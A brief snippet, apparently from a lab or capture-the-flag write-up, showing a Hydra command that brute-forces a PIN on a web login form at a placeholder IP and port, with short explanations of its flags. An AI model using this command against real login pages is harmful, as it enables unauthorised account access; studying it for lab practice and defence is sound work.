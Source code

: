 ```bash
hydra -l '' -P 3digits.txt -f -v IP http-post-form "/login.php:pin=^PASS^:Access denied" -s 8000
```
* -l no username
* -f stop after finding password
* -s port number
